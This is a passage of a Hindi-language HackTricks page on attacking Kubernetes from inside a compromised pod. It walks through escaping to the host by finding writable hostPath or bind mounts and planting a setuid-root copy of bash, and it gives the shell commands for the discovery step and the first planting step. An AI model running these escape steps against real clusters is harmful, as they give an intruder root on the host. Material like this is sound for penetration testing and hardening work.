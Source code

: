 # Pod के अंदर से Kubernetes पर हमला

{{#include ../../banners/hacktricks-training.md}}

## **Pod Breakout**

**यदि आप काफी भाग्यशाली हैं तो आप इससे node तक भाग सकते हैं:**

![](https://sickrov.github.io/media/Screenshot-161.jpg)

### pod से बाहर निकलना

pods से बाहर निकलने की कोशिश करने के लिए आपको पहले **escalate privileges** करना पड़ सकता है, इसे करने की कुछ तकनीकें:

{{#ref}}
https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
{{#endref}}

आप इस **docker breakouts to try to escape** को देख सकते हैं जो एक compromised pod से बाहर निकलने के लिए है:

{{#ref}}
https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html
{{#endref}}

### लिखने योग्य hostPath/bind mounts का दुरुपयोग (container -> host root via SUID planting)

यदि कोई compromised pod/container में ऐसा writable volume मौजूद है जो सीधे host filesystem (Kubernetes hostPath या Docker bind mount) से map होता है, और आप container के अंदर root बन सकते हैं, तो आप उस mount का उपयोग करके host पर एक setuid-root binary बना सकते हैं और फिर host से उसे execute करके root हासिल कर सकते हैं।

मुख्य शर्तें:
- माउंट किया गया volume container के अंदर से writable होना चाहिए (readOnly: false और filesystem permissions write की अनुमति देते हों)।
- Mount के पीछे वाला host filesystem nosuid option के साथ mounted नहीं होना चाहिए।
- आपके पास host पर planted binary को execute करने का कोई तरीका होना चाहिए (उदाहरण के लिए, host पर अलग SSH/RCE, host का कोई user उसे execute कर सकता हो, या कोई और vector जो उस path से binaries चलाता हो)।

कैसे पहचानें writable hostPath/bind mounts:
- kubectl के साथ, hostPath volumes चेक करें: kubectl get pod <pod> -o jsonpath='{.spec.volumes[*].hostPath.path}'
- container के अंदर से, mounts लिस्ट करें और host-path mounts ढूंढें और उनकी writability टेस्ट करें:
```bash
# Inside the compromised container
mount | column -t
cat /proc/self/mountinfo | grep -E 'host-path|kubernetes.io~host-path' || true
findmnt -T / 2>/dev/null | sed -n '1,200p'
# Test if a specific mount path is writable
TEST_DIR=/var/www/html/some-mount  # replace with your suspected mount path
[ -d "$TEST_DIR" ] && [ -w "$TEST_DIR" ] && echo "writable: $TEST_DIR"
# Quick practical test
printf "ping\n" > "$TEST_DIR/.w"
```
container से एक setuid root binary डालें:
```bash
# As root inside the container, copy a static shell (or /bin/bash) into the mounted path and set SUID/SGID
MOUNT="/var/www/html/survey"   # path inside the container that maps to a host directory
cp /bin/bash "$MOUNT/suidbash"
```